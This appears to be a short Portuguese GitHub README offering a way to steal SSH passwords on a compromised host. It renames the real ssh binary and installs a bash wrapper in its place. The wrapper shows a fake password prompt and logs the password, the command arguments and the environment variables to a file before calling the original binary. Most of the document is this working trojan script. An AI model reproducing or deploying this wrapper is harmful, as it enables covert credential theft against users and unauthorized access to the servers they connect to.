 Uma forma simples de obter credenciais para acessar servidores via ssh sem utilizar binários modificados

1 - Binário original do ssh deverá ser renomeado, como pode exemplo de `/usr/bin/ssh`para `/usr/bin/ssh7`
2 - Deverá ser criado um script em bash chamado ssh que irá salvar as variáveis de ambiente e criar um input fake pedindo a senha e depois chamar o binário do ssh

Script bash
```bash
#!/bin/bash

while true; do
        echo -n "Password: "
        read -sr SSH_PASS
        if [ -z "$SSH_PASS" ]; then
                echo ''
                continue
        else
                break
        fi
done

OUTFILE=/home/mksx/env-dump/ssh/`date +"%d-%m-%Y-%H-%M-%S.txt"`

env > $OUTFILE

echo "ssh $@ ($SSH_PASS)" >> $OUTFILE

unset $OUTFILE
unset $SSH_PASS

ssh7 $@
```

### Observação
 1 - Alteração poderá quebrar o uso do sshpass
 2 - Alteração poderá quebrar scripts que utilização expect
 3 - Caso a senha digitada esteja incorreta, a senha correta que será digitada novamente não será salva
